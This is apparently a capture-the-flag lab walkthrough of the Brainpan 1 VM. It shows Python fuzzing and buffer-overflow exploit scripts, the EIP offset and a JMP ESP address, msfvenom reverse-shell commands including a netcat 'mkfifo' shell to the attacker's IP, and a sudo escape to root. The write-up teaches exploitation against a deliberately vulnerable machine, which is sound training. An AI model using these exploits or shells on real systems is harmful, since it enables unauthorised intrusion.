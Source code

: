 # Brainpan 1 Walkthrough
Following is the outcome of my adventure with Brainpan: 1 
Without further delay, let's start the party.

## 1. Initial Scan

`nmap -sV -sT -v -p- -T4 192.168.56.1/24`

```
PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
...
...
...
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Uptime guess: 8.367 days (since Tue Feb 25 05:58:00 2020)
Network Distance: 0 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
```

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/welcome-to-brainpan.png)

* custom application running in Wine on port 9999
* python SimpleHTTPServer on port 10000

**Nikto** might be helpful at this moment

`nikto -h 192.168.56.106`

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/nikto-scan-output.png)

It tells us about the mysterious `bin` directory
Let's browse the website and look inside it

`192.168.56.106:10000/bin/`

A suspicious app binary is waiting there for us - maybe it's the key for solving this puzzle? 

We won't know unless we check it out. Let's run the `strings` command to view the hardcoded strings within the binary

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/strings-output.png)

The `shitstorm` line instantly draws the attention - it may be a password to a certain service!
We are gonna give it a try:

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/192.168.56.106%209999.png)

It looks useless. I also used telnet but still nothing, the application responded with the following: Connection closed by foreign host.

The app behaves as if it were a kind of a server. After opening the socket it waits for connection, checks the input and then drops.

## 2. Some scripting & fuzzing 

Preinstalled Immunity Debugger on Windows 32-bit VM may come in handy here.

**In the first round** we're gonna send a long, repeated string of A's with a simple fuzzer visible below. By running the script, the terminal will tell us whether providing sufficiently long input can crash the app:

```
import socket

for i in range(30):
  s = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
  s.connect(("192.168.56.105",9999)) # mind to change the IP address :-)
  payload = int(i)*("A"*100)
  s.send(payload+"\r\n")
  print "[*] Sending buffer data with " + str(len(str(payload))) + " A's\r\n"
  s.close()
```

Running the code provides us with the following output:

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/python-fuzzer-output.png)

Turns out that the overflow occurs around the length of 900 A's.

In Immunity we notice that the EIP has been overwritten with 41414141 (Hex representation of four A's). It also says that an *Access violation* occurs while executing the code at address 41414141.

## 3. Finding EIP location

As the vulnerability is known and it's obvious that we've gained control over replacing the EIP address, it brings us closer to our goal.

Firstly, we need to find the offset that could control the EIP. We're gonna utilize a Metasploit feature and create a pattern consisting of a set of unique, three-character substrings: 

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/pattern-create-ruby.png)

It spits out a unique and random set that perfectly fits to our payload.
```
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.56.105',9999))

payload = ("Put the pattern here")

print s.recv(1024)
s.send(payload)
print s.recv(1024)

s.close()
```
Execution of the script causes *Access violation* again and leads to crash:

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/overwriting-eip.png)

As you can see above, the pattern inside the EIP is **35724134**

After having the pattern located inside the instruction pointer (EIP), let's determine the offset (known as the exact location of the address) and make it point to our malicious shellcode, which we will craft later on.

`ruby pattern_offset.rb -q 35724134`

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/pattern-offset-ruby.png)

Exactly 524 bytes of junk data is needed to get us to the EIP.

Now our payload will look like this: `"A"*524+"B"*4+"C"*(900-524-4)`

```
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.56.105',9999))

payload = "A"*524 + "B"*4 + "C"*(900-524-4)

print s.recv(1024)
s.send(payload+"\r\n")
print s.recv(1024)

s.close()
```
After executing this script the EIP gets overwritten with 42424242 (the HEX code of "B" is 0x42)

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/Access-violation-42424242.png)

Setting JMP ESP address

`!mona jmp -r ESP`

Quick glance and we see something helpful:

`0x31170000` <- module with no SafeSEH and ASLR protection

And we find the JMP ESP address

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/JMP-ESP-address.png)

## 4. Shellcode payload and reverse shell

* Brainpan's IP - 192.168.56.106
* Attacker's IP - 192.168.56.101
* Windows IP - 192.168.56.105

`msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.101 lport=4444 -f c -b "\x00"`

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/msfvenom-windows-shell-reverse-tcp.png)

```
import socket

buf = ("\xb8\xf9\...\...\...\..."
"\xc9\xb1\...\..\...\...\...\..."
"...
"...
...
"\x..\x..\x..\x..") 

payload = "A"*524 + "\xf3\x12\x17\x31" + "\x90"*16 + buf
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
  s.connect(('192.168.56.106',9999))
except:
  print "Error"
  sys.exit(0)

s.recv(1024)
s.send(payload)
```


![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/nc-nlvp-4444.png)

It was really confusing at first. Notice the CMD 1.4.1 label? This is because the windows executable is running through Wine on a Linux machine. Time to switch to Linux shell.

`msfvenom -p linux/x86/exec CMD="mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.101 4444 >/tmp/f" -b "\x00" -f py`

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/msfvenom-linux-x86-exec-shell.png)

...and swap the shellcode in our python script after setting up the netcat once again.

## 5. Privilege escalation
![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/netcat-and-python-shell.png)

Good, we're back in the game!
Spawning a tty shell -> check `id` -> list the directory `ls -la` -> `cat checksrv.sh` -> and check the local users

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/further-enumeration-shell.png)
`cat group`
![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/cat-group.png)
`cat passwd` -> `ls` -> `cd /opt` -> `cd /etc`
![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/cat-passwd.png)
`ls -la sudoers`
![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/ls-la-sudoers.png)
`sudo /home/anansi/bin/anasi_util`
![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/sudo-home-anansi-bin-anansi-util.png)
`sudo /home/anansi/bin/anasi_util manual /etc/sudoers`
![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/sudo-home-anansi-bin-anansi-util-etc-sudoers.png)
`!/bin/bash`
And finally!
![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan%3A%201/img/root%40brainpan.png)

## Conclusion
It is a great opportunity to improve:
- understanding of buffer overflow
- scripting skills,
- fundamentals of Immunity Debugger,

Thank you for your attention :)
